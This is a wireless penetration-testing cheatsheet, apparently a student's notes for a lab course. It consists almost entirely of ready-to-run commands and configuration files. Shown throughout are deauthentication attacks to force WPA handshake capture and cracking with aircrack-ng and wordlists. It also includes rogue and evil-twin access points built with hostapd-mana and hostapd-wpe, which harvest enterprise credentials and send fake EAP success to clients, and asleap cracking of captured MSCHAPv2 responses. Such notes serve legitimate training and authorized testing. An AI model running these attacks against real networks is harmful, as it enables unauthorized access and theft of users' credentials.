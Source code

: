 
| [[Cheatsheet#Prep / Config\|Prep / Config]] | [[Cheatsheet#Rogue AP Attack\|Rogue AP Attack]]              | [[Cheatsheet#Connect to AP\|Connect to AP]] |
| ------------------------------------------- | ------------------------------------------------------------ | ------------------------------------------- |
| [[Cheatsheet#WEP Cracking\|WEP Cracking]]   | [[Cheatsheet#WPA-Enterprise (MGT)\|WPA-Enterprise Cracking]] | [[Cheatsheet#Example Files\|Example Files]] |

## Prep / Config
```shell
# SSH into VM
kali@kali:~$ ssh <user>@<ip> -p<port>

# Brief scan of wireless networks detected
kali@kali:~$ sudo iw dev wlan0 scan | grep SSID

# Setup monitor mode
kali@kali:~$ sudo airmon-ng start wlan0

# Scan on monitor mode
kali@kali:~$ sudo airodump-ng wlan0mon
kali@kali:~$ sudo airodump-ng --band abg wlan0mon
kali@kali:~$ sudo airodump-ng -w capture wlan0mon

# Change channel for wireless network card
kali@kali:~$ sudo iwconfig wlan0mon channel 3

# Use john with aircrack-ng
kali@kali:~$ sudo nano /etc/john/john.conf
kali@kali:~$ john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e <ESSID> -w - capture-01.cap
```
## Rogue AP Attack
```shell
# Run Rogue AP
kali@kali:~$ hostapd-mana a.conf
# Example config files below
```
### Connect to AP
```shell
# Run WPA_Supplicant
kali@kali:~$ sudo wpa_supplicant -i wlan0mon -c wifi-client.conf
kali@kali:~$ sudo dhclient wlan0mon -v
kali@kali:~$ curl <IP_ADDR>/proof.txt
```
## WEP Cracking
```shell
# Setup monitor mode and identify target AP
kali@kali:~$ sudo airmon-ng check kill
kali@kali:~$ sudo airmon-ng start wlan0
kali@kali:~$ sudo airodump-ng wlan0mon
# Identify ap then narrow down to channel num

# Capture target AP for handshake
kali@kali:~$ sudo airodump-ng -c <channel-num> --wps -w capture --eesid <ESSID> --bssid <BSSID> wlan0mon

# Deauth attack to force handshake capture (new terminal/screen)
kali@kali:~$ sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT-MAC> wlan0mon

# Crack handshake found
kali@kali:~$ aircrack-ng -w /usr/share/wordlists/rockyou.txt -e <ESSID> -b <BSSID> capture-01.cap

# Decrypt traffic if needed
kali@kali:~$ airdecap-ng -b <BSSID> -e <ESSID> -p <key> capture-01.cap
```
## WPA-Enterprise (AUTH MGT)
```shell
### First, update hostapd-wpe.conf with correct INTERFACE, CHANNEL, SSID
kali@kali:~$ nano /etc/hostapd-wpe/hostapd-wpe.conf

# Run HostAPD-WPE
kali@kali:~$ sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf

# Run ASLEAP command from HostAPD output e.g.
kali@kali:~$ asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/wordlists/rockyou.txt

### If fail, revert to FreeRADIUS server
kali@kali:~$ sudo apt install freeradius
kali@kali:~$ sudo nano /etc/freeradius/3.0/certs/na.cnf # change to same as target CA certificate
kali@kali:~$ sudo nano server.cnf # change to same as target server

# Generate Cert
kali@kali:~$ cd /etc/freeradius/3.0/certs
kali@kali:~$ rm dh
kali@kali:~$ make

# Run HostAPD-Mana
kali@kali:~$ sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
## Example Files
### Hostapd-mana Conf Files
opn.conf
```json
network={
	ssid="wifi-free"
    key_mgmt=NONE
    scan_ssid=1
}
```
psk.conf
```json
network={
  ssid="home_network"
  scan_ssid=1
  psk="correct battery horse staple"
  key_mgmt=WPA-PSK
}
```
mgt.conf
```json
network={
    ssid="wifi-mobile"
    scan_ssid=1
    key_mgmt=WPA-EAP
    identity="user"
    password="password"
    eap=PEAP
    phase1="peaplabel=0"
    phase2="auth=MSCHAPV2"
}
```
Mostar-mana.conf (WPA-PSK)
```shell
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```
mana.conf (WPA-E)
```shell
# SSID of the AP
ssid=Playtronics

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
mana.eap_user
```shell
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```